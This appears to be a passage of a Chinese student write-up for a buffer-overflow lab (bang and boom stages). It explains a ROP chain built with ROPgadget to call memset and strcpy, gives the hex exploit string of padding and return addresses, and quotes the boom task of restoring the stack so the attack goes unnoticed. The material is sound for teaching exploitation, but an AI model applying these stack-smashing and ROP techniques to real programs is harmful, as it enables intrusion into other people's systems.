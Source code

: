 ![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh8ccz46lrj31kc03mq3i.jpg)

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh8ccwo9qhj31im046wf3.jpg)

之所以不直接strcpy是因为cookie往后的首个`\x00`截断在8字节之后，所以要复制8个字节到global_value，而strcpy会在末尾加`\x00`，就破坏了原来的cookie

memset函数有三个参数，32位程序又都是将参数压栈进行传参，所以在调用完memset之后，在调用strcpy之前，要先将三个参数出栈

用ROPgadget找到能将三个参数出栈的gadget

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gh8cmw931uj312i0ka0yy.jpg)

exp:

```
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00
80 89 04 08		//ret memset
f1 94 04 08		//执行流返回 3pop
0c d1 04 08		
00 00 00 00		
04 00 00 00		
90 88 04 08		//ret strcpy
9d 8c 04 08
00 d1 04 08
08 d1 04 08		//ret bang
```

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh8cxzev14j315j0u0k5m.jpg)

global_value与cookie相等

valid

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh8cylg7rej315a060tap.jpg)



### boom

之前没找到boom函数，原来不是要跳转boom函数

>不同于之前跳入其他函数，在本任务中我们希望getbuf() 结束后回到test()原本的位置（即call getbuf后的下一行），并将你的cookie作为getbuf()的返回值传给test()。为了使攻击更加具有迷惑性我们还希望saved ebp被复原，这样一来原程序就完全不会因为外部攻击而出错崩溃，也就是退出攻击后要保证栈空间还原，使test()察觉不到我们干了什么，就好像我们什么都没做一样。
